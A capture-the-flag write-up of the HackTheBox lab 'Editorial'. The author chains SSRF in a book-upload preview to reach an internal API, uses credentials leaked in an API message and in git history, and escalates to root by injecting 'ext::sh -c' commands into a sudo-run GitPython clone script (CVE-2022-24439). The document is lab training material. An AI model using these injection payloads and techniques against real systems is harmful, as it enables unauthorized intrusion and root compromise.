







## Reconnaissance

### Port Scanning

Started as usual with a full TCP scan 

```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $sudo nmap -sC -sV -p- -T4 --min-rate 1000 --reason 10.129.55.144 -oN nmap/tcp_scan.nmap 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-31 17:23 CET
Warning: 10.129.55.144 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.55.144
Host is up, received echo-reply ttl 63 (0.63s latency).
Not shown: 64450 closed tcp ports (reset), 1083 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.24 seconds
```

Two ports are open, and port 80 is redirecting to editorial.htb, so we need to add it to our /etc/hosts file

```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $echo "10.129.55.144 editorial.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration

After that, I tried virtual host enumeration and got nothing, so I went straight to the web page.


One interesting feature is the **Publish with us** section.

## SSRF



It lets us upload a book and its information.<br>
The most interesting field here is the **Book Cover** URL field, which made me think about SSRF.<br>
I set up a local Python server and put the URL in that field, uploaded a random file, filled the other fields with `test`, and pressed **Send book info**.



but I got nothing. I kept looking around and saw the **Preview** button, so I filled the fields again and pressed **Preview**. This time I got a request to my local server.

```bash
─[tr3m0x@parrot]─[~]
└──╼ $serve
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.55.144 - - [31/Aug/2026 17:42:48] "GET /?ssrf=true HTTP/1.1" 200 -
```

### Internal Services Enumeration

So my next step is to use this SSRF to enumerate the internal services. But first, I needed to see the request sent in Burp Suite.



So the vulnerable endpoint is the **/upload-cover** endpoint. I sent the request to the Intruder and uploaded the /usr/share/seclists/Discovery/Infrastructure/Ports-1-To-65535.txt list.



But first, I started playing with the request in Burp Suite to find a pattern for filtering. 



I figured out that all the ports I tested manually are returning a JPEG file. Then I started the Intruder.<br>
The only port that doesn't return a JPEG file is port 5000.



it gave us back `static/uploads/b241018d-9ae1-4b80-aa04-302f009a4868.`

```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $curl http://editorial.htb/static/uploads/32b0c6d4-5091-46e5-b22e-56c987c281fd
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

Curling the endpoint, we got a JSON response with some endpoints and their descriptions.<br>
I tested them all, and the most interesting one is the **/api/latest/metadata/messages/authors** endpoint, which returns a welcome message with credentials.



```bash
┌─[tr3m0x@parrot]─[~/htb/linux/Editorial]
└──╼ $curl http://editorial.htb/static/uploads/6c973c83-b888-49f2-9041-e40b570a73bb
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
```

## Shell as dev

I SSH'd to the box with the found credentials, and it worked.

```bash
┌─[tr3m0x@parrot]─[~]
└──╼ $ssh dev@editorial.htb 
The authenticity of host 'editorial.htb (10.129.55.144)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'editorial.htb' (ED25519) to the list of known hosts.
dev@editorial.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Aug 31 05:32:49 PM UTC 2026

  System load:           0.0
  Usage of /:            60.6% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             224
  Users logged in:       0
  IPv4 address for eth0: 10.129.55.144
  IPv6 address for eth0: dead:beef::a0de:adff:fe15:27a9


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ 
```
## Shell as prod

After gaining access as dev, the first thing I did was identify if there are other users on the box with bash. 

```bash
prod@editorial:/home/dev/apps$ cat /etc/passwd | grep sh 
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:113:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

We have the prod user.<br>
Next, I listed the files in the dev home directory and found a folder called **apps** that has a **.git/** folder.

```bash
dev@editorial:~/apps$ ls -la 
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5  2024 .
drwxr-x--- 4 dev dev 4096 Aug 31 17:37 ..
drwxr-xr-x 8 dev dev 4096 Aug 31 17:37 .git
```

So git is installed on the system. One thing to always check is the git log.

```bash
dev@editorial:~/apps$ git log 
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
    
    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial.
```

One commit is interesting: it says `downgrading prod to dev`, so I checked it using the **show** option.
```bash
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

And boom, we have the prod user's password `080217_Producti0n_2023!@`.

```bash
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ 
```

And we have a shell as prod.

## Privilege Escalation

Checked the sudo permissions.

```bash
prod@editorial:/home/dev/apps$ sudo -l 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
### About CVE-2022-24439

I checked the script permissions.

```bash
prod@editorial:/home/dev/apps$ ls -la /opt/internal_apps/clone_changes/clone_prod_change.py
-rwxr-x--- 1 root prod 256 Jun  4  2024 /opt/internal_apps/clone_changes/clone_prod_change.py
```
We can read the file since we're in the **prod** group.

```bash
prod@editorial:/home/dev/apps$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
Here the script is trusting the user input that will be placed in the `url_to_clone`.<br>
After some research, I found that all versions of GitPython packages are vulnerable to CVE-2022-24439.

>**Description:**
>All versions of GitPython packages are vulnerable to Remote Code Execution (RCE) due to improper user input validation, which makes it possible to inject a maliciously crafted remote URL into the clone command. Exploiting this vulnerability is possible because the library makes external calls to git without sufficient sanitization of input arguments.

I found this [PoC](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858), so I tried it.

```bash
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c touch% /tmp/pwned"
```

```bash
prod@editorial:/home/dev/apps$ ls -la /tmp/pwned
-rw-r--r-- 1 root root 0 Aug 31 17:46 /tmp/pwned
```

As we can see, the file was created and it's owned by **root**.

### Root Shell

First, I copied /bin/bash to /tmp/rootbash 

```bash
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cp% /bin/bash% /tmp/rootbash"
```

Checked if it's copied.

```bash
prod@editorial:/home/dev/apps$ ls -la /tmp/rootbash
-rwxr-xr-x  1 root root 1396520 Aug 31 18:00 rootbash
```

Then I added the SUID bit to it.

```bash
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% +s% /tmp/rootbash"
```

Checked if the SUID bit is added.

```bash
prod@editorial:/home/dev/apps$ ls -la /tmp/rootbash
-rwsr-sr-x  1 root root 1396520 Aug 31 18:00 rootbash
```

And finally, we can spawn a root shell.

```bash
prod@editorial:/home/dev/apps$ /tmp/rootbash -p
rootbash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) egid=0(root) groups=0(root),1000(prod)
rootbash-5.1# 
```


And that's it for this box. Hope you enjoyed the writeup and learned something new!